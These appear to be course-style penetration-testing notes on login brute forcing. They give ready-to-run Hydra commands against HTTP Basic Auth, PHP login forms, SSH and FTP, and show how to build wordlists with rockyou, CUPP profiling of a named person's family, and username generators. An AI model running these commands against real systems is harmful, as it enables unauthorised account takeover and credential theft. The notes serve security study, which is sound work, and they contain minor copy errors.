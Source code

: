 #+TITLE: Login Brute Forcing
#+AUTHOR: MattiaCossu

* Introduction
During a ~black box~ penetration test, we encountered an anomalous host on the network that piqued our interest. Investigation revealed a web server operating on a non-standard port, utilizing Basic HTTP AUTH for user authentication. In the absence of credentials, alternate ports, or information about the web server, the only viable approach became ~password brute-forcing~.
** Authentication Mechanisms
The HTTP specification outlines two parallel authentication mechanisms:  ~Basic HTTP AUTH~ and ~Proxy Server Authentication~. While similar in their use of requests and response mechanisms, differences exist in status codes and header names.
1. ~Basic HTTP Authentication~ is used to authenticate the user to the HTTP server.
2. ~Proxy Server Authentication~ is used to authenticate the user to an intermediate proxy server.
** Password Attacks Overview
With no available credentials or additional information, resorting to password ~brute-forcing~ becomes the primary option. Various password attack types, including:
| *Password Attack Type* |
|----------------------|
| ~Dictionary attack~    |
| ~Brute force~          |
| ~Traffic interception~ |
| ~Man In the Middle~    |
| ~Key Logging~          |
| ~Social engineering~   |
*** Brute Force Attack
Brute Force Attacks involve systematically testing all possible character combinations for a specified password length. While effective, the sheer number of permutations can render this method impractical, particularly as password complexity increases
*** Dictionary Attack
A Dictionary Attack leverages lists of known passwords to guess an unknown password. This approach proves useful when assuming the use of passwords with reasonable character combinations.
** Methods of Brute Force Attacks
There are many methodologies to carry a Login Brute Force attacks:
| *Attack*                     | *Description*                                                                                                                                                  |
|----------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Online Brute Force Attack  | Attacking a live application over the network, like HTTP, HTTPs, SSH, FTP, and othersAttacking a live application over the network, like HTTP, HTTPs, SSH, FTP, and others |
| Offline Brute Force Attack | Also known as Offline Password Cracking, where you attempt to crack a hash of an encrypted password.                                                         |
| Reverse Brute Force Attack | Also known as username brute-forcing, where you try a single common password with a list of usernames on a certain service.                                  |
| Hybrid Brute Force Attack  | Attacking a user by creating a customized password wordlist, built using known intelligence about the user or the service.                                   |
* Besic HTTP Auth Brute Forcing
** Defoult Password
Default passwords are frequently employed for user accounts during testing, chosen for their simplicity and ease of recall. They are commonly utilized for default accounts associated with services and applications, streamlining initial access. Unfortunately, these user accounts are prone to being neglected or overlooked. The inherent inclination towards convenience, coupled with human laziness, can result in a lack of attentiveness and subsequent errors, potentially jeopardizing the security of a company's infrastructure.
*** Hydra
Hydra is a handy tool for Login Brute Forcing, as it covers a wide variety of attacks and services and is relatively fast compared to the others.

_Installing_
#+BEGIN_SRC bash
  apt install hydra -y
#+END_SRC

_Attacck defoult pwd_
#+BEGIN_SRC bash
  hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
#+END_SRC
- ~-C ftp-betterdefaultpasslist.txt~ Combined Credentials Wordlist (~test:test~)
- ~SERVER_IP~ Target IP
- ~-s PORT~ Target Port
- ~http-get~ Request Method
- ~/~ Target Path
** Username Brute Force
_Wordlist_
#+BEGIN_SRC bash
  locate rockyou.txt
  
  /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
#+END_SRC
or
#+BEGIN_SRC bash
  locate names.txt

  /opt/useful/SecLists/Usernames/Names/names.txt
#+END_SRC
*** Username/Password Attack
Hydra requires at least 3 specific flags if the credentials are in one single list to perform a brute force attack against a web service:
1. ~Credentials~
2. ~Target Host~
3. ~Target Path~
#+BEGIN_SRC bash
  hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
#+END_SRC
*** Username Brute Force
If we were to only brute force the username or password, we could assign a static username or password with the same flag but lowercase. For example, we can brute force passwords for the ~test~ user by adding ~-l test~, and then adding a password word list with ~-P rockyou.txt~.
#+BEGIN_SRC bash
  hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
#+END_SRC
* Web Forms Brute Forcing
** Hydra Modules
To cause as little network traffic as possible, it is recommended to try the top 10 most popular administrators' credentials, such as ~admin:admin~.

If none of these credentials grant us access, we could next resort to another widespread attack method called password spraying.
*** Brute Forcing Forms
~Hydra~ provides many different types of requests we can use to brute force different services.
#+BEGIN_SRC bash
  hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
#+END_SRC
If we use ~hydra -h~, we should be able to list supported services.

In this situation there are only two types of ~http~ modules interesting for us:
1. ~http[s]-{head|get|post}~
2. ~http[s]-post-form~
The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like ~.php~ or ~.aspx~ and others.

Since the file extension is "~.php~" we should try the ~http[s]-post-form~ module. To decide which module we need, we have to determine whether the web application uses ~GET~ or a ~POST~ form.

To find out how to use the ~http-post-form~ module, we can use the "~-U~" flag to list the parameters it requires and examples of usage:
#+BEGIN_SRC bash
  hydra http-post-form -U

  <...SNIP...>
  Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
  First is the page on the server to GET or POST to (URL).
  Second is the POST/GET variables ...SNIP... usernames and passwords being replaced in the
   "^USER^" and "^PASS^" placeholders
  The third is the string that it checks for an *invalid* login (by default)
   Invalid condition login check can be preceded by "F=", successful condition
   login check must be preceded by "S=".

  <...SNIP...>

  Examples:
   "/login.php:user=^USER^&pass=^PASS^:incorrect"
 
#+END_SRC

In summary, we need to provide three parameters, separated by :, as follows:

1. ~URL path~, which holds the login form
2. ~POST~ parameters for username/password
3. ~A failed/success login string~, which lets hydra recognize whether the login attempt was successful or not

For the first parameter, we know the URL path is:
#+BEGIN_SRC bash
  /login.php
#+END_SRC

The second parameter is the POST parameters for username/passwords:
#+BEGIN_SRC bash
  /login.php:[user parameter]=^USER^&[password parameter]=^PASS^
#+END_SRC

The third parameter is a failed/successful login attempt string. We cannot log in, so we do not know how the page would look like after a successful login, so we cannot specify a ~success~ string to look for.
#+BEGIN_SRC bash
  The second parameter is the POST parameters for username/passwords:
#+END_SRC
*** Fail/Success String
To make it possible for ~hydra~ to distinguish between successfully submitted credentials and failed attempts, we have to specify a unique string from the source code of the page we're using to log in. ~Hydra~ will examine the HTML code of the response page it gets after each attempt, looking for the string we provided.

We can specify two different types of analysis that act as a Boolean value.
| *Type*    | *Boolean Value* | *Flag*           |
|---------+---------------+----------------|
| ~Fail~    | False         | ~F=html_content~ |
| ~Success~ | True          | ~S=html_content~ |

If we provide a ~fail~ string, it will keep looking until the string is not found in the response. Another way is if we provide a ~success~ string, it will keep looking until the string is found in the response.

_Exemple_
We can click ~[Ctrl + U]~ in Firefox to show the HTML page source, and search for ~login~:
#+BEGIN_SRC html
  <form name='login' autocomplete='off' class='form' action='' method='post'>
#+END_SRC

We do not have to provide the entire string, so we will use ~<form name='login'~
#+BEGIN_SRC bash
  "/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"\
#+END_SRC
** Determine Login Parameters
We can easily find POST parameters if we intercept the login request with Burp Suite or take a closer look at the admin panel's source code.
web_fnb_burp.jpg*** Using Browser
One of the easiest ways to capture a form's parameters is through using a browser's built in developer tools. For example, we can open firefox within PwnBox, and then bring up the Network Tools with ~[CTRL + SHIFT + E]~.

Once we do, we can simply try to login with any credentials (~test~:~test~) to run the form, after which the Network Tools would show the sent HTTP requests. Once we have the request, we can simply right-click on one of them, and select ~Copy~ > ~Copy POST~ data
_Result Exemple_
#+BEGIN_SRC text
  username=test&password=test	
#+END_SRC

Another option would be to used ~Copy~ > ~Copy as cURL~, which would copy the entire cURL command, which we can use in the Terminal to repeat the same HTTP request:
#+BEGIN_SRC bash
  curl 'http://178.128.40.63:31554/login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.40.63:31554' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://178.128.40.63:31554/login.php' -H 'Cookie: PHPSESSID=8iafr4t6c3s2nhkaj63df43v05' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=test&password=test'
#+END_SRC
As we can see, this command also contains the parameters ~--data-raw 'username=test&password=test'~.
*** Using Burp Suite
In case we were dealing with a web page that sends many HTTP requests, it may be easier to use Burp Suite in order to go through all sent HTTP requests, and pick the ones we are interested in.
Click on the ~Proxy~ tab:
[[./img/web_fnb_burp.jpg]]
Next, We will go to Firefox and enable the ~Burp Proxy~ by clicking on the ~FoxyProxy~ button in Firefox, and then choosing Burp

Now, all we will do is attempt a login with any username/password 'e.g. ~admin:admin~', and go back to BurpSuite, to find the login request captured:
[[./bruteforcing_burp_request.jpg]]

What we need from the above-captured string is the very last line:
#+BEGIN_SRC text
  username=admin&password=admin
#+END_SRC

To use in a ~hydra http-post-form~, we can take it as is, and replace the username/password we used ~admin:admin~ with ~^USER^~ and ~^PASS^~. The specification of our final target path should be as follows:
#+BEGIN_SRC bash
  "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
#+END_SRC
** Login Form Attacks
In our situation, we don't have any information about the existing usernames or passwords. Since we enumerated all available ports to us and we couldn't determine any useful information, we have the option to test the web application form for default credentials in combination with the ~http-post-form~ module.
*** Default Credentials
Let's try to use the ~ftp-betterdefaultpasslist.txt~
#+BEGIN_SRC bash
  hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
#+END_SRC
*** Password Wordlist
The most common username administrators use is ~admin~. In this case, we specify this username for our next attempt to get access to the admin panel.
#+BEGIN_SRC bash
  hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
#+END_SRC
* Service Authentication Attacks
** Personalized Wordlists
To create a personalized wordlist for the user, we will need to collect some information about them.
*** CUPP
_Installing_
#+BEGIN_SRC bash
  apt install cupp -y
#+END_SRC

We run it in interactive mode by specifying the ~-i~ argument, and answer the questions, as follows:
#+BEGIN_SRC bash
cupp -i

  ___________
     cupp.py!                 # Common
	\                     # User
	 \   ,__,             # Passwords
	  \  (oo)____         # Profiler
	     (__)    )\
		||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
			      [ Mebus | https://github.com/Mebus/]


  [+] Insert the information about the victim to make a dictionary
  [+] If you don't know all the info, just hit enter when asked! ;)

  > First Name: William
  > Surname: Gates
  > Nickname: Bill
  > Birthdate (DDMMYYYY): 28101955

  > Partners) name: Melinda
  > Partners) nickname: Ann
  > Partners) birthdate (DDMMYYYY): 15081964

  > Child's name: Jennifer
  > Child's nickname: Jenn
  > Child's birthdate (DDMMYYYY): 26041996

  > Pet's name: Nila
  > Company name: Microsoft

  > Do you want to add some key words about the victim? Y/[N]: Phoebe,Rory
  > Do you want to add special chars at the end of words? Y/[N]: y
  > Do you want to add some random numbers at the end of words? Y/[N]:y
  > Leet mode? (i.e. leet = 1337) Y/[N]: y

  [+] Now making a dictionary...
  [+] Sorting list and removing duplicates...
  [+] Saving dictionary to william.txt, counting 43368 words.
  [+] Now load your pistolero with william.txt and shoot! Good luck!	
#+END_SRC
*** Password Policy
The personalized password wordlist we generated is about 43,000 lines long. Since we saw the password policy when we logged in, we know that the password must meet the following conditions:
1.    8 characters or longer
2.    contains special characters
3.    contains numbers

So, we can remove any passwords that do not meet these conditions from our wordlist. Some tools would convert password policies to Hashcat or John rules, but hydra does not support rules for filtering passwords. So, we will simply use the following commands to do that for us:
#+BEGIN_SRC bash
  sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
  sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
  sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
#+END_SRC
*** Mangling
It is still possible to create many permutations of each word in that list. We never know how our target thinks when creating their password, and so our safest option is to add as many alterations and permutations as possible, noting that this will, of course, take much more time to brute force.

Many great tools do word mangling and case permutation quickly and easily, like [[https://github.com/digininja/RSMangler][rsmangler]] or [[https://github.com/sc0tfree/mentalist.git][The Mentalist]].

*** Custom Username Wordlist
There are several methods to create the list of potential usernames, the most basic of which is simply writing it manually.

One such tool we can use is [[https://github.com/urbanadventurer/username-anarchy][Username]] Anarchy, which we can clone from GitHub, as follows:
#+BEGIN_SRC bash
  git clone https://github.com/urbanadventurer/username-anarchy.git
#+END_SRC

_Usage_
#+BEGIN_SRC bash
  ./username-anarchy name surname > results.txt
#+END_SRC

** Service Authentication Brute Forcing
*** SSH Attack
#+BEGIN_SRC bash
  hydra -L users.txt -P passwords.txt -u -f ssh://178.35.49.134:22 -t 4
#+END_SRC
*** FTP Attack
#+BEGIN_SRC bash
  hydra -l user -P rockyou-10.txt ftp://127.0.0.1
#+END_SRC
